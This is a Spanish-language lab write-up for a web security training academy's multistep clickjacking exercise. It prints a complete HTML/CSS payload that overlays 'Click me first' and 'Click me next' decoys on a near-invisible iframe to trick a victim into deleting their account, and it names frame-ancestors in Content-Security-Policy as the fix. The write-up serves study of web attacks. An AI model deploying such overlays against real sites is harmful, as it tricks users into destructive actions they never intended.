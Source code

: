 En este laboratorio se presenta una defensa adicional contra el clickjacking: además de un token CSRF, el botón de eliminación de cuenta incluye una ventana de confirmación. Para explotar esta funcionalidad, el ataque debe engañar a la víctima para que realice dos clics consecutivos en ubicaciones específicas: uno para activar el botón de “Eliminar cuenta” y otro para confirmar la acción.

Para lograrlo, se estructura una página con dos capas señuelo (Click me first y Click me next), alineadas con los botones reales del formulario y del cuadro de confirmación, respectivamente. El iframe que contiene la página objetivo se vuelve prácticamente invisible gracias al uso de opacidad muy baja.

Una vez que la víctima interactúa con los dos elementos señuelo, el proceso completo de eliminación de cuenta se ejecuta con éxito, incluyendo la confirmación del diálogo. Este ataque demuestra cómo el clickjacking puede seguir siendo efectivo incluso en flujos de múltiples pasos si no se implementan defensas robustas adicionales como ‘**frame-ancestors**‘ o ‘**same-origin**‘ en ‘**Content-Security-Policy**‘.

Solucion
Aqui es donde se va ver el Click me First y el Click me Second
![Pasted_image_20250724235114.png](/Imagenes/Pasted_image_20250724235114.png)
e aqui el payload 

<style>
	iframe {
        position:relative;
        width:500px;
        height: 600px;
        opacity: 0.001;
    }
    .firstClick {
        position:absolute;
        top: 497px;
        left: 80px;
    }
   .secondClick{
        position:absolute;
        top: 290px;
        left: 200px;
    }
</style>

<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0a830098033a67dd8079033200b9003e.web-security-academy.net/my-account"></iframe>
